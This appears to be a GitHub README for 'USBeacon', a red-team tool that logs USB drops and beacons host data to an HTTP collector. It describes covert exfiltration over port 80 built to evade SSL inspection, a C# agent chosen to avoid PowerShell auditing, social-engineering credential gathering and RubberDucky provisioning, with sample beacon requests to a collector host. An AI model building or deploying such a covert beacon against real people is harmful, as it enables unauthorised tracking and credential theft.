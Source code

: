 USBeacon
===================
>- What and Why
>  - **Backend**
>  - **Frontend**
>  - **Provisioning**
>  - **Operations**
>  

#What and Why

* Ask: Use no exploitation or drop offensive agents (Empire, MSF), but record who inserted USB an on what machine. Possibly use SocEng opportunities to gain some credential data. 
* Enable transparent, obscured payload communication over common non-secured port (80). Application level encryption. This is done so that SSL interception and inspection is not an issue.  Works by blending into normal traffic. All it should look like a straight HTTP traffic.
* Allows storage of gathered data.
* Any HTTP client can communicate.

##Backend 

> - Flexibly Handles REST API
> Verbs:  _GET_, _POST_, _PUT_ 
> endpoints 
>  - /beacon/[:id] , 
>  - /ebeacon/[:id] (encrypted beacon) 
> - Decodes/decrypts payloads
> - Saves timestamped payloads to database 

Sample Plaintext (GET): 
`http://example.com:8000/beacon?a=ok,hid=data`

Sample Plaintext (POST):
POST `http://example.com:8000/beacon/4445534B544F502D4A4D4A4D4E4C49 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: healthybitsatwork.com:8000
Content-Length: 226
Expect: 100-continue
Connection: Keep-Alive`

`a=hid&d=state_ok_data_follows`

Sample Encrypted Request:

POST `http://example.com:8000/ebeacon/4445534B544F502D4A4D4A4D4E4C49 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: healthybitsatwork.com:8000
Content-Length: 226
Expect: 100-continue
Connection: Keep-Alive`

`a=hid&d=NTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzQsMjYsMjMsMTksMzEsMTMsMzIsNTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzIsNzksNzEsNzYsODAsNzksNzIsNzAsODAsNzksNzEsNzEsODAsNzksNzYsNzEsMzI`

### Install
git clone https://github.com/dsnezhkov/USBeacon.git

_Install runtime and framework dependencies_

    apt-get install python3.4-venv
    python3.4 -m venv venv
    pip install --upgrade  pip
    pip install gunicorn
    
_Install application dependencies_

    pip install -r requirements
    
  _Application init and start_
  
    python init_db.py
    
>Setup application container: Nginx/apache/wsgi, etc.
	    
    
    gunicorn app:app -p gunicorn.pid -b 0.0.0.0:8000  --error-logfile=gunicorn.log --access-logfile=gunicorn.log --capture-output  -D 

###_Alternatively run setup and run scripts_
`backend/scripts/setup.sh`
This script will also have a sample nginx site configuration

`backend/scripts/start_server.sh`

----------
## Frontend 

Really, it's about agent gathering the data. Normally it would be an executable on USB doing the collection. I opted to avoid Powershell or other native scripting capability to avoid the upcoming Powershell command auditing. This might include anything within **System.Management.Automation** space. At the same time C# agent strikes a balance between Powershell and unmanaged code. 

_Frontend_ contains example of such C# projects which collects needed info and can be used to communicate HTTP back to  the Backend collector.

>./frontend/Windows/exebeacon/

is one such example. Create others as needed.

## Provisioning 

Contains sample scripts to manage creation of a working USB RubberDucky drop.  
